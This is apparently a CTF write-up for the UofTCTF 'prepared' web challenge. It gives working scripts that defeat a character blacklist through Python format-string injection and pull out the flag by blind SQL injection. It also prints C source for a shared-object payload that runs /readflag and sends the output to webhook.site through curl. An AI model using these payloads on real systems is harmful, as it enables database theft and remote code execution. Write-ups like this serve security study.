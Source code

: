 ```yaml
---
created: 2025-01-12T11:00
updated: 2025-01-12T20:04
solves: 33
points: 460
---
```


After some testing I discovered the world of python format string attacks.

```python
username = "{password.__init__}"
password = "hi"

SELECT * FROM users WHERE username = '<method-wrapper '__init__' of str object at 0x00007FF90538C3B8>' AND password = 'hi'
```

Soon I found out how to bypass the blacklist entirely.

```python
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

username = "{A}' OR 1=1 -- '"
for i, c in enumerate(MALICIOUS_CHARS):
    username = username.replace(c, "{A.MALICIOUS_CHARS[%d]}" % i)

r = requests.post("https://prepared-1-0226d7f72e5495ee.chal.uoftctf.org/", data={
    "username": username,
    "password": "w"
})
print(r.text)
```

However the server does not reply with anything, so simply logging in isn't helpful.

```python
user = cursor.fetchone()
if user:
	flash("Login successful!", 'success')
	return render_template('under_construction.html')
else:
	flash("Login Failed\n"+sanitized_query, 'error')
```

I tried leaking the credentials in global but they are just the default credentials.

## Part 1: SQL '%' operation

Then I implemented a char-by-char attack by using SQL's `%` wild card.

Login success only happens if the last char is correctly guessed.

```python
import string
import asyncio
import aiohttp
from tqdm.asyncio import tqdm
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

# UNION SELECT NULL, NULL, flag FROM flags --
target = "https://prepared-1-0226d7f72e5495ee.chal.uoftctf.org/"
# target = "http://localhost:5000/"


async def check_flag(session, flag):
    username = "{A}' OR EXISTS (SELECT 1 FROM flags WHERE flag LIKE CONCAT(UNHEX('"+flag.encode().hex()+"'), '%')) #"
    for i, c in enumerate(MALICIOUS_CHARS):
        username = username.replace(c, "{A.MALICIOUS_CHARS[%d]}" % i)

    async with session.post(target, data={
        "username": username,
        "password": "w"
    }) as response:
        text = await response.text()
        return flag if "Login successful!" in text else None


async def check(flag):
    async with aiohttp.ClientSession() as session:
        tasks = []
        for c in string.printable:
            if c == '%':
                c = '\\%'
            if c == '_':
                c = '\\_'
            tasks.append(check_flag(session, flag + c))

        results = []
        for task in tqdm(asyncio.as_completed(tasks), total=len(tasks)):
            results.append(await task)
        for result in results:
            if result:
                return result
    return None


async def main():
    flag = "uoftctf"
    while True:
        flag = await check(flag)
        if flag is None:
            break
        print(flag)
        if flag[-1] == '}':
            break
    print(flag.replace('\\', ''))

asyncio.run(main())
```

### part 1 flag

```flag
uoftctf{R3M3Mb3R_70_c173_Y0uR_50URc35_1N_5qL_F0RM47}
```

## Part 2

- SQL's `into outfile` does not work on pre-existing files.
- Template injection was not able to call any functions.
- `cdll[/readflag]` fails due to it not being position independent.

My closest attempt was writing a binary via SQL then trying to load it.

```python
import base64
import re
import requests
import html
import os
target = "http://localhost:5000/"


MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]
with open("exploit.so", "rb") as f:
    payload = base64.b64encode(f.read()).decode('utf-8')

# username = "{B}' UNION (SELECT FROM_BASE64('"+payload+"'),NULL,NULL) INTO OUTFILE '/run/mysqld/payload.so' # -- "
username = """{B}{{A}}' {{A.__init__.__globals__[setuptools].windows_support.ctypes.cdll[/run/mysqld/payload.so]}}"""
for i, c in enumerate(MALICIOUS_CHARS):
    username = username.replace(c, "{B.MALICIOUS_CHARS[%d]}" % i)
# print(username)
response = requests.post(target, data={
    "username": username,
    "password": "w"
})

decoded_response = response.content.decode('utf-8')
decoded_response = html.unescape(decoded_response)
print(decoded_response)

```

This is the source of `payload.so`.

```c
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor)) void on_load() {
    FILE *fp;
    char buffer[128];
    char curlCommand[256];
    const char *url = "https://webhook.site/";
    fp = popen("/readflag", "r");
    if (fp == NULL) {
        perror("popen failed");
        return;
    }
    if (fgets(buffer, sizeof(buffer), fp) != NULL) {
        snprintf(curlCommand, sizeof(curlCommand), "curl -X POST -d \"flag=%s\" %s", buffer, url);
        system(curlCommand);
    }
    pclose(fp);
}
```

It works locally (via python script).

```python
import ctypes
ctypes.cdll['./exploit.so']
```

But for some reason, never on the docker or remote.

The file is there, but I get error of `file not found` when trying to execute it with format string payload.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736726181/2025/01/df944d01f0a33f1134a02a51267e84a4.png)

After the CTF ended, I realised that I was really close.

All I had to do was switch `OUTFILE` to `DUMPFILE`.

And my solution will work.

![200w.gif](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736727242/2025/01/cdd29fbe6702a911d79e99121cf3bb62.gif)
